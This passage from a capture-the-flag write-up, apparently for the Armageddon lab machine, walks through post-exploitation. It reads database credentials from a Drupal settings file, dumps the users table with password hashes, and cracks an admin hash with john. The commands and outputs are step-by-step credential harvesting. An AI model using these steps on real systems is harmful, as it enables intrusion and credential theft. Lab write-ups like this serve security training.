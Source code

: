     meterpreter > shell
    Process 2993 created.
    Channel 0 created.
    id
    uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0

# Privilege escalation

We start enumeration the box and gout the MySQL Database password in a
configuration file.

    :::text
    cat ./sites/default/settings.php
    <SNIP>
    $databases = array (
      'default' =>
      array (
        'default' =>
        array (
          'database' => 'drupal',
          'username' => 'drupaluser',
          'password' => 'CQHEy@9M*m23gBVj',
          'host' => 'localhost',
          'port' => '',
          'driver' => 'mysql',
          'prefix' => '',
        ),
      ),
    );
    <SNIP>

We use `mysldump` to dump the database in a file. Inside the dump we found the
hashed password for the website users.

    :::text
    mysqldump -u drupaluser -p drupal > /tmp/dump
    Enter password: CQHEy@9M*m23gBVj

    <SNIP>
    LOCK TABLES `users` WRITE;
    /*!40000 ALTER TABLE `users` DISABLE KEYS */;
    INSERT INTO `users` VALUES (0,'','','','','',NULL,0,0,0,0,NULL,'',0,'',NULL),(1,'brucetherealadmin','$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt','admin@armageddon.eu','','','filtered_html',1606998756,1607077194,1607076276,1,'Europe/London','',0,'admin@armageddon.eu','a:1:{s:7:\"overlay\";i:1;}'),(3,'admin','$S$DM9qGcKQlMpP4V5r4Dv8XlqsecY6zJrBwRyrkkF5YUjUiJt46NQP','admin@armageddon.htb','','','filtered_html',1618820338,0,0,0,'Europe/London','',0,'admin@armageddon.htb',NULL);
    /*!40000 ALTER TABLE `users` ENABLE KEYS */;
    UNLOCK TABLES;

We put them in a file and run `john` on it. We found the password for the
`brucetherealadmin` user. Which is also a system user (see `/etc/passwd`).

    $ john hash -w=~/tools/password_lists/rockyou.txt
    <SNIP>
    --------------------------------------------------------------------------
    Using default input encoding: UTF-8
    Loaded 1 password hash (Drupal7, $S$ [SHA512 128/128 AVX 2x])
    Cost 1 (iteration count) is 32768 for all loaded hashes
    Will run 8 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    booboo           (brucetherealadmin)
    1g 0:00:00:00 DONE (2021-04-25 11:04) 1.960g/s 470.5p/s 470.5c/s 470.5C/s tiffany..chris
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
